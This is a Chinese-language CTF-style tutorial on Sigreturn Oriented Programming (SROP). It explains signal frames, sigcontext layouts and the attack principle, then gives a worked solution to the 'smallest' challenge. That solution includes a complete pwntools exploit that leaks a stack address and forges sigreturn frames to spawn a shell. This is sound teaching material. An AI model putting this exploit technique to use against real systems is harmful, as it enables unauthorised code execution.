

# SROP

## 基本介紹

SROP(Sigreturn Oriented Programming)於2014年被Vrije Universiteit Amsterdam的Erik Bosman提出，其相關研究**`Framing Signals — A Return to Portable Shellcode`**發表在安全頂級會議[Oakland 2014](http://www.ieee-security.org/TC/SP2014)上，被評選爲當年的[Best Student Papers](http://www.ieee-security.org/TC/SP2014/awards.html)。其中相關的paper以及slides的鏈接如下：

[paper](http://www.ieee-security.org/TC/SP2014/papers/FramingSignals-AReturntoPortableShellcode.pdf)

[slides](https://tc.gtisc.gatech.edu/bss/2014/r/srop-slides.pdf)

其中，`sigreturn`是一個系統調用，在類unix系統發生signal的時候會被間接地調用。

## signal機制

 signal機制是類unix系統中進程之間相互傳遞信息的一種方法。一般，我們也稱其爲軟中斷信號，或者軟中斷。比如說，進程之間可以通過系統調用kill來發送軟中斷信號。一般來說，信號機制常見的步驟如下圖所示：


1. 內核向某個進程發送signal機制，該進程會被暫時掛起，進入內核態。

2. 內核會爲該進程保存相應的上下文，**主要是將所有寄存器壓入棧中，以及壓入signal信息，以及指向sigreturn的系統調用地址**。此時棧的結構如下圖所示，我們稱ucontext以及siginfo這一段爲Signal Frame。**需要注意的是，這一部分是在用戶進程的地址空間的。**之後會跳轉到註冊過的signal handler中處理相應的signal。因此，當signal handler執行完之後，就會執行sigreturn代碼。

    

    對於signal Frame來說，會因爲架構的不同而有所區別，這裏給出分別給出x86以及x64的sigcontext

    -   x86

    ```c
    struct sigcontext
    {
      unsigned short gs, __gsh;
      unsigned short fs, __fsh;
      unsigned short es, __esh;
      unsigned short ds, __dsh;
      unsigned long edi;
      unsigned long esi;
      unsigned long ebp;
      unsigned long esp;
      unsigned long ebx;
      unsigned long edx;
      unsigned long ecx;
      unsigned long eax;
      unsigned long trapno;
      unsigned long err;
      unsigned long eip;
      unsigned short cs, __csh;
      unsigned long eflags;
      unsigned long esp_at_signal;
      unsigned short ss, __ssh;
      struct _fpstate * fpstate;
      unsigned long oldmask;
      unsigned long cr2;
    };
    ```

    -   x64

    ```c
    struct _fpstate
    {
      /* FPU environment matching the 64-bit FXSAVE layout.  */
      __uint16_t		cwd;
      __uint16_t		swd;
      __uint16_t		ftw;
      __uint16_t		fop;
      __uint64_t		rip;
      __uint64_t		rdp;
      __uint32_t		mxcsr;
      __uint32_t		mxcr_mask;
      struct _fpxreg	_st[8];
      struct _xmmreg	_xmm[16];
      __uint32_t		padding[24];
    };
    
    struct sigcontext
    {
      __uint64_t r8;
      __uint64_t r9;
      __uint64_t r10;
      __uint64_t r11;
      __uint64_t r12;
      __uint64_t r13;
      __uint64_t r14;
      __uint64_t r15;
      __uint64_t rdi;
      __uint64_t rsi;
      __uint64_t rbp;
      __uint64_t rbx;
      __uint64_t rdx;
      __uint64_t rax;
      __uint64_t rcx;
      __uint64_t rsp;
      __uint64_t rip;
      __uint64_t eflags;
      unsigned short cs;
      unsigned short gs;
      unsigned short fs;
      unsigned short __pad0;
      __uint64_t err;
      __uint64_t trapno;
      __uint64_t oldmask;
      __uint64_t cr2;
      __extension__ union
        {
          struct _fpstate * fpstate;
          __uint64_t __fpstate_word;
        };
      __uint64_t __reserved1 [8];
    };
    ```

3. signal handler返回後，內核爲執行sigreturn系統調用，爲該進程恢復之前保存的上下文，其中包括將所有壓入的寄存器，重新pop回對應的寄存器，最後恢復進程的執行。其中，32位的sigreturn的調用號爲119(0x77)，64位的系統調用號爲15(0xf)。

## 攻擊原理

仔細回顧一下內核在signal信號處理的過程中的工作，我們可以發現，內核主要做的工作就是爲進程保存上下文，並且恢復上下文。這個主要的變動都在Signal Frame中。但是需要注意的是：

- Signal Frame被保存在用戶的地址空間中，所以用戶是可以讀寫的。
- 由於內核與信號處理程序無關(kernel agnostic about signal handlers)，它並不會去記錄這個signal對應的Signal Frame，所以當執行sigreturn系統調用時，此時的Signal Frame並不一定是之前內核爲用戶進程保存的Signal Frame。

說到這裏，其實，SROP的基本利用原理也就出現了。下面舉兩個簡單的例子。

### 獲取shell

首先，我們假設攻擊者可以控制用戶進程的棧，那麼它就可以僞造一個Signal Frame，如下圖所示，這裏以64位爲例子，給出Signal Frame更加詳細的信息


當系統執行完sigreturn系統調用之後，會執行一系列的pop指令以便於恢復相應寄存器的值，當執行到rip時，就會將程序執行流指向syscall地址，根據相應寄存器的值，此時，便會得到一個shell。

### system call chains

需要指出的是，上面的例子中，我們只是單獨的獲得一個shell。有時候，我們可能會希望執行一系列的函數。我們只需要做兩處修改即可

- **控制棧指針。**
- **把原來rip指向的`syscall` gadget換成`syscall; ret` gadget。**

如下圖所示 ，這樣當每次syscall返回的時候，棧指針都會指向下一個Signal Frame。因此就可以執行一系列的sigreturn函數調用。



### 後續

需要注意的是，我們在構造ROP攻擊的時候，需要滿足下面的條件

-   **可以通過棧溢出來控制棧的內容**
-   **需要知道相應的地址**
    -   **"/bin/sh"**
    -   **Signal Frame**
    -   **syscall**
    -   **sigreturn**
-   需要有夠大的空間來塞下整個sigal frame

此外，關於sigreturn以及syscall;ret這兩個gadget在上面並沒有提及。提出該攻擊的論文作者發現了這些gadgets出現的某些地址：


並且，作者發現，有些系統上SROP的地址被隨機化了，而有些則沒有。比如說`Linux < 3.3 x86_64`（在Debian 7.0， Ubuntu Long Term Support， CentOS 6系統中默認內核），可以直接在vsyscall中的固定地址處找到syscall&return代碼片段。如下


但是目前它已經被`vsyscall-emulate`和`vdso`機制代替了。此外，目前大多數系統都會開啓ASLR保護，所以相對來說這些gadgets都並不容易找到。

值得一說的是，對於sigreturn系統調用來說，在64位系統中，sigreturn系統調用對應的系統調用號爲15，只需要RAX=15，並且執行syscall即可實現調用syscall調用。而RAX寄存器的值又可以通過控制某個函數的返回值來間接控制，比如說read函數的返回值爲讀取的字節數。

## 利用工具

**值得一提的是，在目前的pwntools中已經集成了對於srop的攻擊。**

## 示例

這裏以360春秋杯中的smallest-pwn爲例進行簡單介紹。基本步驟如下

**確定文件基本信息**

```text
➜  smallest file smallest
smallest: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, stripped
```

可以看到該程序爲64位靜態鏈接版本。

**檢查保護**

```text
➜  smallest checksec smallest
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

程序主要開啓了NX保護。

**漏洞發現**

實用IDA直接反編譯看了一下，發現程序就幾行彙編代碼，如下

```asm
public start
start proc near
xor     rax, rax
mov     edx, 400h
mov     rsi, rsp
mov     rdi, rax
syscall
retn
start endp
```

根據syscall的編號爲0，可以知道該程序執行的指令爲read(0,$rsp,400)，即向棧頂讀入400個字符。毫無疑問，這個是有棧溢出的。

**利用思路**

由於程序中並沒有sigreturn調用，所以我們得自己構造，正好這裏有read函數調用，所以我們可以通過read函數讀取的字節數來設置rax的值。重要思路如下

- 通過控制read讀取的字符數來設置RAX寄存器的值，從而執行sigreturn
- 通過syscall執行execve("/bin/sh",0,0)來獲取shell。

**漏洞利用程序**

```python
from pwn import *
from LibcSearcher import *
small = ELF('./smallest')
if args['REMOTE']:
    sh = remote('127.0.0.1', 7777)
else:
    sh = process('./smallest')
context.arch = 'amd64'
context.log_level = 'debug'
syscall_ret = 0x00000000004000BE
start_addr = 0x00000000004000B0
## set start addr three times
payload = p64(start_addr) * 3
sh.send(payload)

## modify the return addr to start_addr+3
## so that skip the xor rax,rax; then the rax=1
## get stack addr
sh.send('\xb3')
stack_addr = u64(sh.recv()[8:16])
log.success('leak stack addr :' + hex(stack_addr))

## make the rsp point to stack_addr
## the frame is read(0,stack_addr,0x400)
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_read
sigframe.rdi = 0
sigframe.rsi = stack_addr
sigframe.rdx = 0x400
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret
payload = p64(start_addr) + 'a' * 8 + str(sigframe)
sh.send(payload)

## set rax=15 and call sigreturn
sigreturn = p64(syscall_ret) + 'b' * 7
sh.send(sigreturn)

## call execv("/bin/sh",0,0)
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_execve
sigframe.rdi = stack_addr + 0x120  # "/bin/sh" 's addr
sigframe.rsi = 0x0
sigframe.rdx = 0x0
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret

frame_payload = p64(start_addr) + 'b' * 8 + str(sigframe)
print len(frame_payload)
payload = frame_payload + (0x120 - len(frame_payload)) * '\x00' + '/bin/sh\x00'
sh.send(payload)
sh.send(sigreturn)
sh.interactive()
```

其基本流程爲

- 讀取三個程序起始地址
- 程序返回時，利用第一個程序起始地址讀取地址，修改返回地址(即第二個程序起始地址)爲源程序的第二條指令，並且會設置rax=1
- 那麼此時將會執行write(1,$esp,0x400)，泄露棧地址。
- 利用第三個程序起始地址進而讀入payload
- 再次讀取構造sigreturn調用，進而將向棧地址所在位置讀入數據，構造execve('/bin/sh',0,0)
- 再次讀取構造sigreturn調用，從而獲取shell。

## 題目

- [Defcon 2015 Qualifier: fuckup](https://brant-ruan.github.io/resources/Binary/learnPwn/fuckup_56f604b0ea918206dcb332339a819344)

參考閱讀

- [Sigreturn Oriented Programming (SROP) Attack攻擊原理](http://www.freebuf.com/articles/network/87447.html)
- [SROP by Angel Boy](https://www.slideshare.net/AngelBoy1/sigreturn-ori)
- [系統調用](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit)
  